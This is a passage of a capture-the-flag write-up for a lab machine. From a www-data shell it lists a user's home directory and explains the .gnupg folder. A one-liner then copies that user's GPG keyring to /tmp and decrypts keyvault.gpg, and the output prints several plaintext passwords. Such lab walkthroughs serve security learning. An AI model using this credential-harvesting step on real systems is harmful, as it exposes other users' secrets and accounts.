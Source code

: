 ![](gitbook/cybersecurity/images/Pasted%20image%2020250611164428.png)

Inside of `hish` home directory, we can find this:

```bash
www-data@environment:~/app/storage/app/public/files$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jan 12 11:51 .
drwxr-xr-x 18 root root 4096 Apr 30 00:31 ..
drwxr-xr-x  5 hish hish 4096 Apr 11 00:51 hish

www-data@environment:~/app/storage/app/public/files$ ls -la /home/hish/
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4096 Jun 12 07:44 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 Jun 11 20:01 user.txt

www-data@environment:~/app/storage/app/public/files$ ls -la /home/hish/backup/
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Jun 12 07:44 keyvault.gpg
```

We got a `keyvault.gpg` file, we can decrypt it with the `.gnupg` directory, the `.gnupg` directory is GnuPG’s (GPG) **configuration and key storage folder**. It’s automatically created in a user’s home directory when they use `gpg`. Here's what it contains and why it matters:

| File/Folder              | Purpose                                                                      |
| ------------------------ | ---------------------------------------------------------------------------- |
| `pubring.kbx`            | Stores **imported public keys**.                                             |
| `private-keys-v1.d/`     | Stores **user's private keys** (one per file, usually GnuPG v2+).            |
| `trustdb.gpg`            | Tracks trust levels of keys.                                                 |
| `gpg.conf`               | User configuration (keyserver, preferences, etc.).                           |
| `secring.gpg` _(legacy)_ | GnuPG v1/v1.4 file holding private keys (superseded by `private-keys-v1.d`). |
| `random_seed`            | Stores randomness seed used in crypto generation.                            |

We can do this simply one liner:

```bash
cp -R /home/hish/.gnupg /tmp && GNUPGHOME=/tmp/.gnupg gpg --decrypt /home/hish/backup/keyvault.gpg
"hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```
